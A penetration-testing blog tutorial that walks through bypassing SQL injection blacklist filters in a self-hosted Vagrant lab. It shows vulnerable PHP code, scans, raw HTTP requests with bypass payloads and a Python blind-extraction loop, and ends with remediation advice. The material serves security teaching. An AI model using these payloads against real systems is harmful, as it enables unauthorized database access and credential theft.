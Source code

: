 :page-slug: sqli-manual-bypass/
:page-date: 2020-05-20
:page-category: attacks
:page-subtitle: Bypassing SQLi filters manually
:page-tags: security, web, vulnerability, ethical-hacking
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620331101/blog/sqli-manual-bypass/cover_mbogji.webp
:page-alt: Photo by Kuma Kum on Unsplash
:page-description: SQL injection can be one of the most dangerous vulnerabilities. Here we will see how to bypass certain controls that developers put in their code.
:page-keywords: Web, Security, Vulnerability, Hacking, SQLi, Input Validation, Ethical Hacking, Pentesting
:page-author: Jonathan Armas
:page-writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, OSCP - Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/oBLk_2Iyisg

= Manual SQLi Bypass

Among the most recurring vulnerabilities are injection flaws,
not for nothing they are first in the link:https://owasp.org/www-project-top-ten/[OWASP Top Ten list].
This type of vulnerability
can disrupt your entire security and infrastructure;
almost any input can be an injection vector
and all must be controlled. Here, `SQL injection` plays a big role,
not only because of the risk of information leakage
but also because it can lead to remote command execution
or access to the internal network.

This vulnerability works when an attacker
injects code into the queries
that the application makes to the database
interfering with its normal operation.
This happens because the developers
did not validate data input properly
and did not apply the best practices
to retrieve data from the database.
Let me give you an example; imagine this piece of code:

.Common sqli vulnerable code
[source, PHP]
----
$user = $_POST['user'];
$passwd = $_POST['passwd'];
$sql = "select id from users where user='$user' and passwd='$passwd'";
----

Here I created a common login page code
that checks the username and password.
The variables are introduced through a `POST` request,
and there is no input validation.
An attacker could simply put
the well known `SQLi` payload `1' or '1'='1`
and bypass the login form.
But if I filter some characters like the `OR keyword`
or the `single quote` character,
then will it be ok? Not so much.

== SQLi Bypass lab

To set up our lab,
we are going to use `Hashicorp's` link:https://www.vagrantup.com/[Vagrant];
the source files are below.
Create a folder with the name `sqli`
and save the `Vagrantfile` there.

.setting up the lab
[source, bash, linenums]
----
$ mkdir sqli
$ cd sqli
sqli$ nano Vagrantfile #Add the content here
----

.Vagrantfile
[source, ruby]
----
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure("2") do |config|

  config.vm.box = "jarmasatfluid/sqlitest"
  config.vm.box_version = "1"
  config.vm.network "private_network", ip: "192.168.56.2"

end
----

Then run the environment using

.vagrant up
[source, bash]
----
sqli$ vagrant up
----

This will create a `Linux` machine
with `LAMP` installed and configured.
At this point, everything we need has been completed
and is ready to launch an attack.

Now we can set up our attacking machine.
Here we are using link:https://www.kali.org/[Kali Linux] with `Vagrant` too,
but you can use whatever `OS` you prefer.

These are the tools that we are going to use:

* link:https://portswigger.net/burp[Burpsuite]
* link:http://netcat.sourceforge.net/[Netcat]
* link:https://tools.kali.org/web-applications/dirbuster[Dirbuster]
* link:https://www.python.org/[Python]

If you are using `Kali`, then everything has already been installed by default.

We are ready to go.

== Enumerating our server

First, we need to check the server ports.
We can use `nmap` or `ncat` to do it.

.port scanning
[source, bash, linenums]
----
$ nmap 192.168.56.2
$ ncat -vz 192.168.56.2 80
----

.nmap output
[source, bash]
----
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-20 13:32 SA Pacific Standard Time
Nmap scan report for 192.168.56.2
Host is up (0.00051s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
25/tcp open  smtp
80/tcp open  http
MAC Address: 08:00:27:0A:C5:08 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 10.19 seconds
----

.nc
[source, bash]
----
Ncat: Connected to 192.168.56.2:80.
Ncat: 0 bytes sent, 0 bytes received in 0.31 seconds.
----

Our server runs `Apache` on `port 80`.
Then using `Dirbuster`, we can search for directories on the web server.

.dirbuster
[source, bash]
----
$ dirb http://192.168.56.2/

DIRB v2.22
By The Dark Raver

START_TIME: Mon May 20 11:26:17 2020
URL_BASE: http://192.168.56.2/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

GENERATED WORDS: 4612

 Scanning URL: http://192.168.56.2/
==> DIRECTORY: http://192.168.56.2/code/
+ http://192.168.56.2/index.html (CODE:200|SIZE:11321)
+ http://192.168.56.2/server-status (CODE:403|SIZE:277)

 Entering directory: http://192.168.56.2/code/
+ http://192.168.56.2/code/admin.php (CODE:302|SIZE:2075)
+ http://192.168.56.2/code/index.php (CODE:200|SIZE:1098)

END_TIME: Mon May 20 11:26:25 2020
DOWNLOADED: 9224 - FOUND: 4
----

As we can see, there is an admin site to which we do not have access
and a normal site where our test cases are.

== SQLi bypass attacks

There are three test cases;
the first one is the simplest.
It filters the `OR|AND` keywords
and also the space character.

.First SQLi filter
[source, PHP]
----
if(preg_match('/or|and| /i',$pass)) exit("<script type='text/javascript'>alert('Wrong');</script>");
----

The username is not injectable
because it uses a prepared statement
(this was intended to show the correct way of doing queries).
If we put any of those characters into the query,
it should respond with a `Wrong` alert.

To bypass this, we need to substitute those keywords:
the `OR` keyword with the double pipe character `||`,
and the `AND` keyword with the double ampersand character `&&`.
In this case, we need to `URL encode` it
because of the content type of the web application
resulting in `%26%26`.
Finally, the space character
can be bypassed using several substitutions,
such as the following:

. The block comment `/&#42;&#42;/`
. The ascii `%09` horizontal tab character
. The ascii `%0a` new line character
. The ascii `%0b` vertical tab character
. The ascii `%0c` new page character
. The ascii `%0d` carriage return character

So, our well known SQLi payload
will change to something like
`'/&#42;&#42;/||/&#42;&#42;/1=1#`

.first bypass
----
POST /code/one.php HTTP/1.1
Host: 192.168.56.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://192.168.56.2
Connection: close
Referer: http://192.168.56.2/code/one.php
Upgrade-Insecure-Requests: 1

user=admin&password='/**/||/**/1%3d1%23&s=OK
----

The next test case is a little trickier,
it filters the same characters as before
plus the single quote character.
Also, it removes the use of the prepared statement
in the username variable
but validates the single quote character too.

.Second SQLi filter
[source, PHP]
----
if(preg_match('/\'/', $user)) exit("<script type='text/javascript'>alert('Wrong');</script>");
if(preg_match('/or|and| |\'/i',$pass)) exit("<script type='text/javascript'>alert('Wrong');</script>");
$sql = "SELECT * FROM users WHERE user = '$user' and passwd = '$pass'";
----

So, what can we do to bypass this?
The backslash character `\` is a special escape character
used to indicate other special characters in strings.
This is useful in our case
because if we inject that character into the username input,
then the single quote character next to it
will act as a literal one,
and the username string will end next to the password input:

.Backslash example
[source, PHP]
----
$sql = "SELECT * FROM users WHERE user = '$user\' and passwd = '$pass'";
----

It's just a matter of injecting our code there;
the payload in the username will be `\`,
and in the password field it will be
`/&#42;&#42;/||/&#42;&#42;/1=1/&#42;&#42;/--`

.second bypass
----
GET /code/two.php?user=%5C&password=%2F**%2F%7C%7C%2F**%2F1%3D1%2F**%2F--&s=OK HTTP/1.1
Host: 192.168.56.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.56.2/code/two.php
Upgrade-Insecure-Requests: 1

----

The last example combines everything
and adds more filters to the code;
it is a different type of vulnerability
because we are going to bypass the filter
into an `ORDER BY` keyword.

.Third SQLi filter
[source, PHP]
----
if(preg_match('/\'|"|=|admin|substr|concat|group|ascii|or|and| |-|#|\s|\/\\\\|like|0x|col|case|when|sleep|benchmark/i',$_GET["by"])) exit("<script type='text/javascript'>alert('Wrong');</script>");
...
$stmt = $link->prepare("SELECT * FROM product where name like ? order by $order desc");
----

Here we can hardly use any keywords or functions,
and the `union select` won't work either.
To collect data from the database
from an `ORDER BY` keyword, we need to use
an error-based `SQLi` or a time-based one.

So, the first injection will be for testing the vulnerability,
let's inject a simple error-based `SQLi`
where, if it is true, then it will order the items using the id,
and if it is false, it will order them using the name:

. `?by=if(false,id,name)`
. `?by=if(true,id,name)`

Now, let's add another layer.
We want to get information out of this
and in order to do that we need to make some queries.
In this example, we will get the `guest` password
(if you want to get the admin password, you should try it yourself).
Because the characters `=`, single and double quotes are filtered,
we need another way to get the information of the user that we want.
Here we have the `IN` operator and the `CHAR` function.
The `IN` operator allows us to specify multiple values in a `WHERE` clause
but we can use only one if we want it,
and the `CHAR` function returns the `ASCII` character based on a number.
Using both elements, a query for the guest password
will be something like this:

.guest password query
----
select passwd from users where user in(CHAR(103,117,101,115,116))
----

Here the string `guest`
is the combination of `103,117,101,115,116` `ASCII` characters.
Now the `MID` function will help us
to strip characters from that query
and get the password character by character.
This query will get the first character of the password:

.guest password character
----
mid((select passwd from users where user in(CHAR(103,117,101,115,116))),1,1)
----

Next, we need to compare it against another character;
here we are going to use `IN` and `CHAR` again:

.guest password comparison
----
mid((select passwd from users where user in(CHAR(103,117,101,115,116))),1,1) in(CHAR(49))
----

Finally, we put our query into the previous `IF` function
and replace the spaces with the block comment:

.guest password comparison
----
?by=if(mid((select/**/passwd/**/from/**/users/**/where/**/user/**/in(CHAR(103,117,101,115,116))),1,1)/**/in(CHAR(49)),id,name)
----

With this, we can get the `guest` password
using the `ORDER BY` function.
Doing this manually would take quite a while,
let's automatize it using `Python`.
The first thing that we need
is a function that makes our queries
and returns the response:

.make request function
[source, Python]
----
def make_request(parms):
    """
    Makes the request
    """
    response = requests.get(URL, headers=HEADERS, params=parms,
                            cookies=COOKIES)
    return response.text
----

Then we need to iterate
through each element of the password
and each `ASCII` character:

.iterative query
[source, Python]
----
# Length of the password
for i in range(8):
  # All ASCII table
  for j in range(0, 128):
    query = 'if(mid((select/**/passwd/**/from/**/users/**/where/**/user/**/in(CHAR(103,117,101,115,116))),'+str(i)+',1)/**/in(CHAR('+str(j)+')),id,name)'

----

And finally, we check whether the list
is ordered by id:

.iterative query
[source, Python]
----
check = ">Description</th></tr></thead><tbody><tr><td>5"
if check in resp:
  PASSWORD += chr(j)
  break

----

That's it, create the exploit,
execute it, and wait for the result.
This could be done using any other query,
for example, getting the `MySQL` user password hash.

== Solution

The first thing that someone with this problem needs to do
is to implement prepared statements;
there is no way out of it.
Injections can occur at almost any (if not all) database provider.
With these statements, the software will present a robust data querying
and discard the use of dynamic queries.

The next step is to execute whitelists
to validate user input.
When the developers use blacklist filtering,
as in the examples above,
there is a risk of missing some parameter
that can allow the injection.
Whitelists are a better approach
because they only allow what is in them and nothing else.

Finally, there is the implementation of the principle of least privilege.
I've encountered several databases executing queries
using the root user;
it is better to use limited users in our applications
because it limits the range of action
of the attackers that, in the worst scenario,
get access to the database.

If you want more information about protections against `SQLi`,
you can check link:https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection[OWASP]
or our link:https://docs.fluidattacks.com/criteria/[*Criteria*].
